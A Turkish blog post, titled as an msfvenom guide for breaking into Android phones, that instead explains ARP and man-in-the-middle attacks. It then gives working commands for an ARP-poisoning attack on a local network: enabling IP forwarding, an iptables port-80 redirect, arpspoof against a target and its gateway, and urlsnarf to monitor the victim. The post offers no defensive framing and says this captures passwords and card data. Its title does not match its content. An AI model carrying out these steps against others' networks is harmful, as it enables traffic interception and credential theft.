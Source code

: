 ﻿---
title: Msfvenom ile Android Telefonlara Sızma
category: blog
last_modified_at: 2016-12-27
---
Öncelikle ARP Nedir sorusuyla konumuza başlayalım. ARP türkçeye adres çözümleme protokolü olarak çevirilebilir. Yerel ağlarda en sık kullanılan arayüz ethernettir. Bu arayüzler birbirlerine veri gönderip alırken üretim aşamasında onlara tanımlanmış olan benzersiz 48 bitlik mac adreslerini kullanırlar. TCP/IP protokolü ise bu işlem sırasında 32 bitlik IP adreslerini kullanırlar. Yani yerel ağda veri akışının sağlanması için cihazın mac adresi bilinmelidir. Bu veri akşı esnasında kullanılan protokole, yani IP adresi bilinen bir cihazın mac adresinin çözümlenmesi protokolüne Address Resolution Protocol(ARP) ismi verilir.

Şimdi bir cihazın IP adresini bildiğimiz fakat mac adresini bilmediğimiz durumlarda bütün ağa ARP isteği gönderelim. Böyle bir senaryoda bütün ağa yayın yapan (broadcast) paketi yolladığımızda, bu yayına sadece IP adresi uyuşan cihaz cevap verecek ve diğer cihazlar cevap vermeyecektir ve bu cevap cihazın mac adresi olacaktır. Ayrıca ARP isteği yapan cihaz ve ARP isteğini cevaplayan cihazlar birbirlerinin mac adreslerini daha sonra tekrar kullanmak için ARP Önbelliğine kaydeder.

Şimdi de MITM saldırısı ne demek bunu inceleyelim. Man in the middle saldırısı ya da türkçeye çevirirsek ortadaki adam saldırısı, bir network üzerinde hedef bilgisayar ile modem, server, switch, router gibi araçların arasına girerek verileri dinleme ve yakalama ilkesine dayanan bir saldırı türüdür. Ağda gönderilmiş bir paketi yakalayıp, destination Mac adresini kendisine göre düzenler ve bundan sonra gönderilen bütün paketler ilk olarak saldırganın bilgisayarına gider. Bu sayede şifreler, kredi kartı bilgileri gibi bilgiler saldırganın eline geçmiş olur.

> <h4>Yerel ağ üzerindeki cihazlara</h4> ARP Poisoning
> 
> DNS Spoofing
> 
> Port Stealing
> 
> STP Mangling <h4>Yerel Ağdan uzak cihazlara gateway ile</h4> ARP
> Poisoning (ARP Zehirlenmesi)
> 
> DNS Spoofing (DNS Önbellek Zehirlenmesi, Aldatma)
> 
> DHCP Spoofing (DHCP Aldatma)
> 
> ICMP Redirection
> 
> IRDP Spoofing
> 
> Route Mangling <h4>Uzak Ağa</h4> DNS Poisoning (DNS Zehirlenmesi)
> 
> Traffiec Tunneling
> 
> Route Mangling
> 
> saldırı türlerini yapabiliriz.

Şimdi bir saldırı örneği yaparak konuyu daha iyi kavrayalım.

Aşağıdaki "ifconfig" çıktıları saldırıyı yapacağım bilgisayara ait

![spoof1](https://www.hubeybi.com/wp-content/uploads/2017/06/spoof1.jpg)

İlk önce saldırıyı gerçekleştireceğim bilgisayarın IP yönlendirme durumunu öğrenmek için aşağıdaki komutu yürütüyorum.

    cat /proc/sys/net/ipv4/ip_forward

&nbsp;

Eğer aldığım çıktı 0 (sıfır) ise yönlendirme aktif değil sonucuna ulaşıyorum ve aktif hale getirmek için aşağıdaki komutu yürütüyorum.

    echo 1 > /proc/sys/net/ipv4/ip_forward

&nbsp;

Şimdi IP yönlendirmeyi aktif ettiğime göre ARP zehirleme işlemini başlatabilirim.ardından aşağıdaki komutu yürütüyorum.

    iptables -t nat -A PREROUTING -p tcp –destination-port 80 -j REDIRECT –to-port 8080

&nbsp;

![spoof2](https://www.hubeybi.com/wp-content/uploads/2017/06/spoof2.png)

&nbsp;

    arpspoof -i “interface” -t “ip_adres” “gateway”

&nbsp;

![spoof3](https://www.hubeybi.com/wp-content/uploads/2017/06/spoof3.png)

Üst bölümdeki resimde de görüldüğü üzere ilk önce hangi portların dinleneceği belirtiliyor. Şimdi saldırı yaptığımız bilgisayarın gateway ve IP bilgilerini girerek arp reply paketlerini göndermeye başlayacağım. şimdi aşağıdaki komutu yürütererek saldırı yapacağım bilgisayarı izlemeye alabilirim.

    urlsnarf -i eth1

&nbsp;

![spoof4](https://www.hubeybi.com/wp-content/uploads/2017/06/spoof4.png)

Buradan sonra bize beklemek düşüyor. Saldırı yaptığımız internete bağlandığında ve paketler göndermeye başladığında bu paketler tamamen bizim kontrolümüzde olacak.